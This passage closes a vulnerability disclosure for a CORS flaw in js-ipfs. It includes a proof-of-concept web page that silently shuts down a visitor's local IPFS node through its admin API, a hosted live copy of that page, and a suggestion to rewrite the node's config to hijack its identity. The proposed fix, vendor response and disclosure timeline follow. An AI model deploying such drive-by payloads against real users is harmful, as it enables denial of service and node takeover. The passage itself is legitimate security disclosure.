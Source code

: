 ```html

window.onload = function(){
  callBypassingCORS("http://localhost:5002/api/v0/shutdown"); //bye
}

setTimeout(function(){callBypassingCORS("http://localhost:5002/api/v0/shutdown"); }, 1000); //make it work for gistpreview :D
</script>
</body>
</html>
```



Here's a live version on web2 but it's trivial to also host this on the decentralized web: https://gistpreview.github.io/?7520115105b938786251e6a072cc1877/jsipfs-shutdown.html ([source as gist](https://gist.github.com/tintinweb/7520115105b938786251e6a072cc1877))

This should end up terminating the node. YaY!

![image](https://user-images.githubusercontent.com/2865694/117188946-e4076680-addd-11eb-8932-0c95630bbe56.png)

Now, ideally we would not terminate the node but change the configuration (`/api/v0/config/replace`) to allow javascript via CORS to get full read/write access to the admin interface, stealing the identity and turning that ipfs node into our zombie.


### Proposed Fix

* Harden server-side header checks: origin, referer, hostname
* Authenticate the admin interface to avoid local privilege escalation issues

## Vendor Response

```
Summary
CORS protection is not enforced for POST submissions on the API service exposed by the IPFS node instantiated by `js-ipfs`
unless configured to do so.  `go-ipfs` solves this issue by checking HTTP origin (and referrer, but this is secondary) and
rejecting all requests by default. `js-ipfs` has been fixed to do this as well.

Impact
A rogue website loaded in a web browser could potentially have admin access to a js-IPFS node running locally as a daemon
process (due to insufficient CORS protection).

Risk score
https://owasp-risk-rating.com/?vector=(SL:3/M:1/O:9/S:2/ED:5/EE:Risk score:9/A:9/ID:9/LC:0/LI:0/LAV:9/LAC:1/FD:7/RD:9/NC:0/PV:0)

Fix:
https://github.com/ipfs/js-ipfs/pull/3674
```

### Timeline

```
May/05/2021 - initial contact with ipfs security team
May/07/2021 - a fix appeared in their repository: https://github.com/ipfs/js-ipfs/pull/3674
Jun/03/2021 - vendor response: risk scoring and details
```


